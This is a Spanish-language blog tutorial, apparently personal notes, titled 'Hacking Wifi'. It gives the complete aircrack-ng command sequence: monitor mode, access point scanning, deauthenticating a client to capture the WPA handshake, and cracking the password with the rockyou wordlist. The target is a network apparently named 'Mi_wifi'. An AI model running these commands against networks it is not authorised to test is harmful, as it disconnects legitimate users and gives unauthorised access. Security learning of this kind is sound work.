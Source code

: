 ```yaml
---
layout: post
title: Hacking Wifi
date: 2024-04-06 12:24:23 
category: Linux
vm: linux
---
```


 **1)** Vemos nuestra interfaz de red wifi

`iwconfig`

![iwconfig](/notas/public/img/hwifi/iwconfig.png){:.margin}


**2)** Le cambiamos el ESSID para no complicarnos

`sudo ip link set dev wlxb4b0240921e2 name wlan0`

`iwconfig `

 ![essid](/notas/public/img/hwifi/essid_modify.png){:.margin}

**3)** Eliminamos procesos 'conflictivos'

`sudo airmon-ng check kill`

![kill](/notas/public/img/hwifi/kill_process.png){:.margin}

**4)** Iniciamos el modo monitor

`sudo airmon-ng start wlan0`

![start](/notas/public/img/hwifi/start_mode.png){:.margin}

_> El nombre de nuestra interface puede variar, en este caso se mantiene._

**5)** Escuchamos los Puntos de Acceso (AP)

`sudo airodump-ng wlan0`

![listen](/notas/public/img/hwifi/listen_wifi.png){:.margin}

- **Mi_wifi** _AP victima_
    - **FC:A6:21:D5:D8:17** - Mac
    - **11** - Canal 



**6)** Vemos los dispositivos del AP objetivo

`sudo airodump-ng -c 11 --bssid FC:A6:21:D5:D8:17 -w save_prueba wlan0`

![devices](/notas/public/img/hwifi/devices_wifi.png){:.margin}

_En este caso hay un dispositivo movil conectado._

- **44:6D:6C:35:40:DB** - Mac del Dispositivo dentro del AP Mi_Wifi

**7)** Desautenticamos al usuario del punto de acceso

`sudo aireplay-ng --deauth 5 -a FC:A6:21:D5:D8:17 -c 44:6D:6C:35:40:DB wlan0`

![handshake](/notas/public/img/hwifi/handshake.png){:.margin}

_Tenemos el handshake, donde viaja 'la contraseña cifrada'_

- Listamos el reporte:

`ls`

![cap](/notas/public/img/hwifi/save_cap.png){:.margin}

**8)** Aplicamos fuerza bruta para obtener la contraseña

`sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b FC:A6:21:D5:D8:17 save_prueba-01.cap`

![key](/notas/public/img/hwifi/key.png){:.margin}

<br>

<a href="#">_Finalizado._</a>